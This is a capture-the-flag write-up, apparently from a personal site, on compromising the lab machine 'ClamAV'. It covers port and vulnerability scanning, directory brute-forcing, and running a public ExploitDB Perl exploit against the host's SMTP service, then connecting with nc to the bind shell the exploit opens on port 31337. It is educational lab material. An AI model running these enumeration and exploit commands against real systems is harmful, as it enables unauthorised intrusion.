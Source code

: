 
---
layout: default
title: x001-ClamAV
nav_order: 2
has_children: true
parent: writeups
grand_parent: DylanGrl Writings
---

## x001-ClamAV
### Enumeration 

####  NMAP
```bash
nmap -A -T4 192.168.148.42 -p-
```

We have the following list of open port : 
- 22
- 25
- 80
- 139
- 199
- 445
- 60000

![](attachments/Pasted%20image%2020220219175320.png)

We can run a vuln script on those ports :
```bash
nmap -sV --script vuln 192.168.148.42 -p22,25,80,139,199,445,60000
```

The list of vulnerabilities doesn't provide anything useful to exploit the box

#### Website 
Accessing the website, we have the following message : 
```
01101001 01100110 01111001 01101111 01110101 01100100 01101111 01101110 01110100 01110000 01110111 01101110 01101101 01100101 01110101 01110010 01100001 01101110 00110000 0011 0000 01100010
```

Resulting in : `ifyoudontpwnmeuran00b`

##### Gobuster 

Using gobuster to detect folder on the webserver : 
```bash
gobuster dir -u http://192.168.148.42/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

It indicates a folder `/doc` but it's protected (403 error) and the tool 4-zero-3 bypass could reach the page. 

#### Smb 
Searching for the information inside the share using enum4linux doesn't give us more information. 

#### Other
After searching the name of the box in google, I have find out that it correspond to a software.

Looking for information on this software inside the exploitdb provide me the following output  : 
```bash
searchsploit clamav 
```

![](attachments/Pasted%20image%2020220219185703.png)

The latest exploit is to use an open SMTP server (it's our case, the port 25 is open on our box) 

So if we copy the exploit and run it : 
```bash
cp /usr/share/exploitdb/exploits/multiple/remote/4761.pl ./
perl 4761.pl 192.168.148.42
```


If we check the detail of the exploit, it opens the port 31337 for a remote shell access, we could use nmap to verify if the port is open or not : 

```bash
nmap -p 31337 192.168.148.42
---
PORT      STATE SERVICE
31337/tcp open  Elite
```

Using nc we finally receive the access to the machine : 
```bash
nc  192.168.148.42 31337 
```

![](attachments/Pasted%20image%2020220219190144.png)

